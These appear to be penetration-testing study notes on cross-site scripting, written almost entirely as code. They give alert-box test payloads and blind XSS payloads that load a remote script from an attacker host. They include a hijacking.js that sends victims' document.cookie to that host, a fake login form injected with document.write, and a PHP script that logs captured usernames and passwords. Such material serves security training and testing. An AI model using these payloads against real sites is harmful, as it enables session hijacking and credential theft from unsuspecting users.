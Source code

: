 Payload

https://www.youtube.com/watch?v=KHwVjzWei1c
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

testing payload

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
// remote script
<script src="http://<attacker ip>"></script>
// note that html in the front
'><script src="http://<attacker ip>"></script>
"><script src="http://<attacker ip>"></script>
```

hijacking.js

```js
// enter a workable payload into the vulnerability input field
"><script src="http://<attacker ip>/hijacking.js"></script>
```

```js
// hijacking.js
// sudo python3 -m http.server 80
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()

// hijacking.js
document.location='http://<attacker ip>/?output='+document.cookie;
// hijacking.js
new Image().src='http://<attacker ip>/?output='+document.cookie;
// and so on
```

using cookie to access (e.g., Firefox DevTools)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/XSS/XSS_Login.png)

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```
